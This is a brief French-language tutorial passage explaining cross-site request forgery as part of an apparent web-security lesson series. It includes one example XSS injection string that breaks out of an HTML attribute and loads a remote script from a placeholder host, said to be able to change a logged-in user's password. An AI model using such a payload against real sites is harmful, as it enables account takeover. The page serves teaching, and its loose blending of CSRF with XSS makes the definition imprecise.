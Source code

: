 # 3. Cross-Site Request Forgery (CSRF)

Le CSRF est une attaque qui combine l'injection HTML et le XSS pour faire des appels vers des API où l'utilisateur est authentifié.

Ainsi, le pirate peut effectuer des actions en se passant pour l'utilisateur.

## Exemple

Si on continue avec l'exemple du [`2. XSS`](./2-xss.md), on pourrait importer directement
un script `exploit.js` comme ceci: `"><script src=//www.example.com/exploit.js></script>`.

Ce script pourrait contenir les instructions qui permettent de changer le mot de passe de l'utilisateur connecté par exemple.
